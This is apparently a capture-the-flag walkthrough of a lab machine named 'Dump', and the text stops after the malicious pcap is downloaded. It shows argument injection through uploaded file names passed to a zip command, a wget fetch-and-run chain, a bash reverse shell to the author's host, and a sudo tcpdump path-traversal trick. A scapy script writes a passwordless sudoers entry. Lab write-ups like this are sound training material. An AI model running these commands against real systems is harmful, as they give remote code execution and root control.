# Dump
## Enumeration
### Open ports
```python
❯❯❯ nmap -p- --min-rate=2000 -sT -Pn 10.129.234.97 -vv

Nmap scan report for 10.129.234.97
Host is up, received user-set (0.031s latency).
Scanned at 2026-10-16 16:20:14 BST for 7s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

### Nmap
```python
❯❯❯ nmap -p 22,80 -A --min-rate=2000 -sT -Pn 10.129.234.97           
Starting Nmap 7.991 ( https://nmap.org ) at 2026-10-16 16:21 +0100
Nmap scan report for 10.129.234.97
Host is up (0.014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u5 (protocol 2.0)
| ssh-hostkey: 
|   3072 fb:31:61:8d:2f:86:e5:60:f9:e6:24:a3:1c:62:0c:ae (RSA)
|   256 0c:b7:c4:fb:4a:fc:31:1b:e9:4b:0b:d1:19:56:2f:ce (ECDSA)
|_  256 3c:c6:e8:71:4d:9a:d5:1d:86:dd:dd:6c:82:ee:7e:4d (ED25519)
80/tcp open  http    Apache httpd 2.4.65 ((Debian))
|_http-server-header: Apache/2.4.65 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: hdmpll?
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## SSH (22)
### Version info
```python
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u5 (protocol 2.0)
| ssh-hostkey: 
|   3072 fb:31:61:8d:2f:86:e5:60:f9:e6:24:a3:1c:62:0c:ae (RSA)
|   256 0c:b7:c4:fb:4a:fc:31:1b:e9:4b:0b:d1:19:56:2f:ce (ECDSA)
|_  256 3c:c6:e8:71:4d:9a:d5:1d:86:dd:dd:6c:82:ee:7e:4d (ED25519)
```

### Auth method



It accepts password based auth, this is less secure

## HTTP (80)



The landing page is a login form

Ill attempt some logons using default credentials, no overly verbose error messages telling me if a user exists

Also does not appear to be vulnerable to SQL injection

Ill create a user and login 



So there are three main options, capture, download and upload

Clicking on download gives me a 404 not found, this is likely because there isnt any stored

If i click on capture it runs a capture on port 31330 for 10s



If i then return to the home page....



I can see there are captures



Clicking into one, shows the output on the screen

Its also using the URL parameter `?fn=`

It will be worth testing for LFI and RFI

I can then also download this file, after downloading it comes in the format of a .zip file, unzipping it shows the pcap



Looking into potential LFI shows this error message, it looks like it only accepts the UUIDv4 naming format



Ill take the UUID and put it into cyberchef, this also shows version 4 and also gives a UUID integer

https://medium.com/@dinesharney/understanding-uuid-v4-uuid-v7-snowflake-id-and-nano-id-in-simple-terms-c50acf185b00

https://hacktricks.wiki/en/pentesting-web/uuid-insecurities.html

This instance is UUID v4 which tends to be very unpredictable apart from maybe 2 characters, this makes it difficult to forge one to read files

If i use the capture function then use a nc command on my machine

```python
nc -vn 10.129.234.97 31330
(UNKNOWN) [10.129.234.97] 31330 (?) : Connection refused
```

While this port is capturing ill send connections then i can view it in the viewer



Although this doesnt help me much

## RCE



Whats interesting when i make a file called `";id;#` to test command arguement injection, it obviously URL encodes the `"` but when i download it there is a request to `/download.php`

The output of it looks like its zipping the file, i might be able to get code execution here

It looks lile its using the zip binary and placing the filename into the zip command its running, if this file is structured correctly i should be able to get RCE

```python
file upload -> request download -> files placed into zip command -> UUID generated for zip -> zip file downloaded
```

Ive made a file called `-h2` this is a extended help menu for zip

```python
touch -- "-h2"
```

Then ill upload it, and download it



As seen here its executing the -h2 flag

```python
❯❯❯ touch -- "-T"

❯❯❯ touch -- "-TT wget 10.10.14.61"

❯❯❯ echo 'test' > test.txt
```

Ill create the files



Ill start by uploading `-T` then ending on `test.txt`

The thought behind this command is

```python
zip <ZIP UUID> -T '-TT wget 10.10.14.61' test.txt
```

This what the command will look like on the system

```python
python3 -m http.server 80
```

Ill start a web server

Then download it



Then it makes a request to my machine!

Now i have confirmed code execution i can work on getting a reverse shell

However i cannot place a `/` in the file name, so ill have to save the shell as index.html 

```python
❯❯❯ cat index.html 
bash -i >& /dev/tcp/10.10.14.61/1337 0>&1
```

Ill first make the shell

```python
touch -- "-TT wget 10.10.14.61 -O shell.sh; bash shell.sh"
```

Then ill remake the second file, this will get index.html by default from my web server and save it in shell.sh then run it

```python
python3 -m http.server 80
```

Then ill start a web server



Then ill make the uploads, then download



As seen here after downloading, it makes a request to my server then zip executes shell.sh to give me a shell

```python
www-data@dump:/$ ls -al /home/
total 16
drwxr-xr-x  4 root  root  4096 Mar  5  2023 .
drwxr-xr-x 18 root  root  4096 Oct 21  2025 ..
drwxr-xr-x  4 admin admin 4096 Oct 21  2025 admin
drwx------  2 fritz fritz 4096 Oct 21  2025 fritz
www-data@dump:/$ 
```

There is two users on the machine

Ill put linpeas on the server and make it executable



After running linpeas i see my user can run tcpdump as root without a password

https://gtfobins.org/gtfobins/tcpdump/

According to the GTFObins page, sometimes apparmor can block this so its not quite so simple

```python
www-data@dump:/$ aa-status 2>/dev/null || apparmor_status 2>/dev/null
apparmor module is loaded.
apparmor module is loaded.
www-data@dump:/$ 
```

And as seen here i see that apparmor is running

If i look at the syntax closely from the sudo output, i see there is a wildcard `*` this means this isnt an absolute path, so i can likely create my own file to use in the command

I can also probably use path traversal here to escape the specified path

## Root access on the system

```python
www-data@dump:/$ touch /var/cache/captures/filter.11111111-2222-3333-4444-555555555555
```

First ill create my own filter to use in the command

```python
www-data@dump:/var/cache/captures$ ls -la
total 12
drwxr-xr-x  3 www-data www-data 4096 Oct 17 17:19 .
drwxr-xr-x 10 root     root     4096 Mar  5  2023 ..
drwxr-x---  2 www-data www-data 4096 Oct 17 16:38 7944814a-2d74-4036-9dfb-4c171b29894d
-rw-r--r--  1 www-data www-data    0 Oct 17 17:19 filter.11111111-2222-3333-4444-555555555555
www-data@dump:/var/cache/captures$ 
```

As seen here it has created the filter file

```python
www-data@dump:/var/cache/captures$ mkdir x
```

Then ill create a dummy directory that i control

```python
www-data@dump:/var/cache/captures$ sudo tcpdump -c10 -w/var/cache/captures/x/../../../../tmp/11111111-1111-1111-1111-111111111111 -F/var/cache/captures/filter.11111111-2222-3333-4444-555555555555
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
10 packets captured
10 packets received by filter
0 packets dropped by kernel
www-data@dump:/var/cache/captures$
```

Then i can test this

```python
www-data@dump:/var/cache/captures$ ls -la /tmp/
total 16
drwxrwxrwt  2 root     root     4096 Oct 17 17:22 .
drwxr-xr-x 18 root     root     4096 Oct 21  2025 ..
-rw-r--r--  1 tcpdump  tcpdump   976 Oct 17 17:22 11111111-1111-1111-1111-111111111111
-rwx--x--x  1 www-data www-data   51 Oct 17 16:46 tmp.ss6ZVc4VJU
www-data@dump:/var/cache/captures$ 
```

As seen here it has wrote the file

Now i need to actually abuse this using a malcious pcap file, ill do this with scapy

```python
from scapy.all import Raw, wrpcap

# payload: leading newline is deliberate, in case it lands mid-garbage
# so the previous (garbage) "line" is cleanly terminated before yours starts
payload = b"\n" + b"www-data ALL=(ALL) NOPASSWD: ALL\n" + b"\n"

pkt = Raw(load=payload)
wrpcap("evil.pcap", [pkt])
```

This is the script ill use to generate me a pcap with syntax to write to the sudoers file

```python
❯❯❯ python3 -m venv venv && source venv/bin/activate
 
❯❯❯ pip3 install scapy 

❯❯❯ python3 evil-pcap.py   
```

Then ill use the script to create the pcap for me

```python
❯❯❯ python3 -m http.server 80
```

Then ill start a webserver on my machine and transfer the pcap to the target

```python
www-data@dump:/tmp$ wget http://10.10.14.61/evil.pcap -o evil.pcap
```

Then ill grab the pcap file and place it in `/tmp`
